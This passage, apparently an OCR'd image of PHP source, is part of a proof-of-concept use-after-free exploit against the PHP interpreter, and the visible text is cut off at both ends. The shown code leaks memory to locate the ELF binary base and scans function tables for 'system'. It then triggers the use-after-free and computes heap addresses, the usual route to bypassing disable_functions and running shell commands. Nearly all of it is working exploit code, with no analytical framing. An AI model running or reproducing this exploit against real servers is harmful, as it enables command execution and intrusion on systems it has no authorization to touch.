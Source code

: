 ```php

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {

        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

```